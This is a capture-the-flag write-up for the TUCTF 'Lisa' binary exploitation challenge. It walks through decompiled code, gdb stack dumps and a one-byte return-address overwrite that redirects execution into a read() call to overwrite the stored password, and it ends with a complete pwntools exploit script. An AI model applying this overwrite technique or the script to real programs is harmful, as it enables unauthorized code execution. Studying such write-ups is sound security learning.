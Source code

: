 # Lisa (PWN, 489)

### Task description

Difficulty: medium-ish
Ayo, Johhny's got your take from the job.
Go meet up with em' to claim your share.
Oh, and stop asking to see the Mona Lisa alright. It's embarrassing

https://tuctf.com/files/763181476bfb720d04c6c2253436fb03/lisa

### Solution

First of all, let's run this binary to understand what it does.

```
Here's your share: 0x57639160
What? The Mona Lisa!
Look, if you want somethin' from me, I'm gonna need somethin' from you alright...
Okayyyyyyyyyyyyyyyyy
Ugh! You kiss your mother with that mouth?
Huh????????
```

When running normally, it outputs the address of some share and then asks for the user input twice.
Now let's try to break it:

```
Here's your share: 0x57ded160
What? The Mona Lisa!
Look, if you want somethin' from me, I'm gonna need somethin' from you alright...
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Ugh! You kiss your mother with that mouth?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

Okay, it seems that we can cause a segmentation fault. But where can we go with it? To answer this question, let's look at the decompiled code:

```c
int lisa()
{
	// many lines of classical ascii-art
	system("/bin/cat ./flag");
	// many more lines of classical ascii-art
}

ssize_t fail(void *buf)
{
  puts("Ugh! You kiss your mother with that mouth?");
  return read(0, buf, 29u);
}

int checkPass()
{
  int result;
  char buf;

  if ( doStrcmp(inp, (char *)pass) )
    result = lisa();
  else
    result = fail(&buf);
  return result;
}

int main()
{
	char our_password; // [esp+0h] [ebp-34h]

	setvbuf(stdout, 0, 2, 20u);
	setvbuf(stdin, 0, 2, 20u);
	memset(&our_password, 0, 48u);
	pass = malloc(43u);
	printf("Here's your share: %p\n", pass);
	puts("What? The Mona Lisa!\nLook, if you want somethin' from me, I'm gonna need somethin' from you alright...");
	read(0, &our_password, 0x30u);
	inp = &our_password;
	pfd = open("./password", 0);
	read(pfd, pass, 43u);
	checkPass();
	return 0;
}

```

As we've seen from experiments and as we see now from the source code, the program flow is pretty linear: 

1. It fills memory dedicated to "our_password" variable with zeros and allocates space for the real password.
2. It outputs the address of real password.
3. It reads our password from stdin.
4. It reads the real password from "./password".
5. It compares both passwords and then:
5.1 If they are equal, it calls the lisa function.
5.2 Otherwise, it calls the fail function, which takes another user input and then goes up the stack to "return 0".

What draws our attention here is the function lisa: if we call lisa, we will get the flag. But to do so, we must know the correct password, mustn't we?
Well, it's hard to say when we look just at the source code. As we remember, we've succeeded to cause a segmentation fault. Let's do it again but this time with gdb.
Having been given long input like 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa', the program goes from "fail" back to "checkPass" and then tries to return to main. This is when something interesting happens:

```
[----------------------------------registers-----------------------------------]
EAX: 0x1d 
EBX: 0x56559000 --> 0x3ef0 
ECX: 0xffffd314 ('a' <repeats 29 times>, "]UVfirst_input\n")
EDX: 0x1d 
ESI: 0xf7fa7000 --> 0x1d5d8c 
EDI: 0x0 
EBP: 0x61616161 ('aaaa')
ESP: 0xffffd330 ("a]UVfirst_input\n")
EIP: 0x56555801 (<checkPass+67>:	ret)
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x565557fc <checkPass+62>:	add    esp,0x4
   0x565557ff <checkPass+65>:	nop
   0x56555800 <checkPass+66>:	leave  
=> 0x56555801 <checkPass+67>:	ret    
   0x56555802 <lisa>:	push   ebp
   0x56555803 <lisa+1>:	mov    ebp,esp
   0x56555805 <lisa+3>:	push   ebx
   0x56555806 <lisa+4>:	call   0x56555630 <__x86.get_pc_thunk.bx>
[------------------------------------stack-------------------------------------]
0000| 0xffffd330 ("a]UVfirst_input\n")
0004| 0xffffd334 ("first_input\n")
0008| 0xffffd338 ("t_input\n")
0012| 0xffffd33c ("put\n")
0016| 0xffffd340 --> 0x0 
0020| 0xffffd344 --> 0x0 
0024| 0xffffd348 --> 0x0 
0028| 0xffffd34c --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x56555801 in checkPass ()
gdb-peda$ x/xw 0xffffd330
0xffffd330:	0x56555d61
```

Next instruction to be executed is located at 0x56555d61 (example with randomization turned off). But if we check in disassembler, we will see that the instruction following "call checkPass" should be located at 0x56555d22.
If we remember that we are asked exactly 29 bytes in fail function, the reason for this result becomes clear on close examination of the stack layout:

```
Before writing many 'a's into buffer in fail():

0xffffd300:	0x0000001d	0x56559000	0xffffd32c	0x565557fc
     (start of buffer)->|--we can write here--------------
0xffffd310:	0xffffd314	0xffffd334	0xf7eb6bb0	0x56559000
            ---------------------and here-----------------
0xffffd320:	0xf7fa7000	0x56555d1a	0x00000003	0xffffd368
                    |- (<- this byte we also can overwrite)
0xffffd330:	0x56555d22	0x73726966	0x6e695f74	0x0a747570

After:

0xffffd300:	0x0000001d	0x56559000	0xffffd32c	0x565557fc
                        |--overwritten--------------------
0xffffd310:	0xffffd314	0x61616161	0x61616161	0x61616161
            ---------------overwritten--------------------
0xffffd320:	0x61616161	0x61616161	0x61616161	0x61616161
                    |- (<- last byte of return address)
0xffffd330:	0x56555d61	0x73726966	0x6e695f74	0x0a747570
```

We have overwritten one byte of return address to the main function (at 0xffffd330)! Let's look at what's located next:

```
gdb-peda$ x/s 0xffffd334
0xffffd334:	"first_input\n"
```

It means that our first input follows just the return address to "main", one byte of which we can overwrite with our second input. 
The problem here is that by overwriting return address we cannot go to the lisa function because its address ends with something like "xx|xx|x8|02" while we are restricted to the addresses matching "xx|xx|xD|XX". 
Okay, now where shall we return?

```
0x56555d01 <main+193>:	lea    eax,[ebx+0x40]
0x56555d07 <main+199>:	mov    edx,DWORD PTR [eax]
0x56555d09 <main+201>:	lea    eax,[ebx+0x48]
0x56555d0f <main+207>:	mov    eax,DWORD PTR [eax]
0x56555d11 <main+209>:	push   0x2b                     / number of bytes to read
0x56555d13 <main+211>:	push   edx                      / buffer to read into
0x56555d14 <main+212>:	push   eax                      / fd to read from
0x56555d15 <main+213>:	call   0x56555550 <read@plt>    / normally - reading the real password
0x56555d1a <main+218>:	add    esp,0xc
0x56555d1d <main+221>:	call   0x565557be <checkPass>
0x56555d22 <main+226>:	mov    eax,0x0                  / normally - location to which we return from checkPass
0x56555d27 <main+231>:	mov    ebx,DWORD PTR [ebp-0x4]
0x56555d2a <main+234>:	leave  
0x56555d2b <main+235>:	ret                             / maybe return here?
```

My first guess was to return to the "ret" instruction of main, which, being followed by the actual address of lisa, will get us the flag. It works okay without randomization, but with it - no, it doesn't work.
But if we return to the "call read" instruction, we can overwrite any memory (almost) with any bytes because we control the values following stored EIP at stack, which are going to be arguments for read().

```c
// from man pages for read()
#include <unistd.h>

ssize_t read(int fd, void *buf, size_t count);
// read() attempts to read up to count bytes from file descriptor fd into the buffer starting at buf.
```

If we use the given address of real password as a second parameter and stdin (fd = 0) as a first parameter, we can overwrite it and make it match our own first input, which is comprised of all the necessary parameters. It results in a successful comparison of both passwords and getting awarded with the flag.

```python
# solution in python

from pwn import *
import re
import struct
import time

r = process('lisa')
#r = remote('18.191.244.121', 12345)
data = r.recvuntil('...\n')
print data
share = int(re.findall(r'share: 0x(\w+)', data)[0],16)

first_input = struct.pack('<I',0) # stdin
first_input += struct.pack('<I',share) # address of real password
first_input += struct.pack('<I',0x2b) # size of input
r.sendline(first_input)

print r.recvuntil('mouth?\n')
# overflowing last byte of checkPass return address (to main)
second_input = '\x15' * 29
r.send(second_input)

# duplicating first input so that the two match
unintended_third_input = struct.pack('<I',0)
unintended_third_input += struct.pack('<I',share)
unintended_third_input += struct.pack('<I',0x2b)
r.sendline(unintended_third_input)

time.sleep(0.5)
print r.recv()
r.close()


```